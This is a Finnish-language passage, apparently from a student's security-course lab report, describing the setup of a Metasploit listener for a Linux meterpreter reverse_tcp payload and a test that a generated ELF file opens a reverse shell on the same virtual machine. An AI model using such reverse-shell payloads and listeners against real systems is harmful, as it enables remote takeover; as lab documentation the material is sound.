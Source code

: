 Avasin msfconlosen ja suoritin siellä seuraavat komennot
```
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.0.2.15
set LPORT 4444
run
```
![kuva](images/h3/11msf.png)

Nämä komennot valmistavat Metasploitin kuuntelemaan tulevia yhteyksiä määritellystä IP-osoitteesta ja portista.

Testasin haittaohjelman toimivuuden suorittamalla `runme.elf`-tiedoston kohdekoneella, joka tässä tapauksessa oli sama virtuaalikone, jossa haittaohjelma luotiin. Tämä varmisti, että reverse shell -yhteys avattiin ja hallinta oli mahdollista.

![kuva](images/h3/12msf.png)
